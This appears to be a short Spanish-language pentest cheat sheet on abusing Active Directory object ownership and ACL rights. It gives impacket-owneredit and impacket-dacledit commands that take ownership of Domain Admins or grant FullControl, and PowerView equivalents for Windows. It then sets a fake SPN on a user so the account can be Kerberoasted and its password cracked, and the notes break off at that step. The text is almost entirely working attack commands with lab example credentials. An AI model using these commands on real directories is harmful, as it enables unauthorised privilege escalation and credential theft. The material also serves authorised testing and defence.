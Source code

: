 # Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sakshi' -target-dn 'CN=ankur,CN=Users,DC=ignite,DC=local' 'ignite.local'/'sakshi':'Password@1' -dc-ip 192.168.1.6
# Desde windows

  ### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'roma' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "roma" -PrincipalIdentity "sameer"

# Explotación/abuso

#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'roma' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.
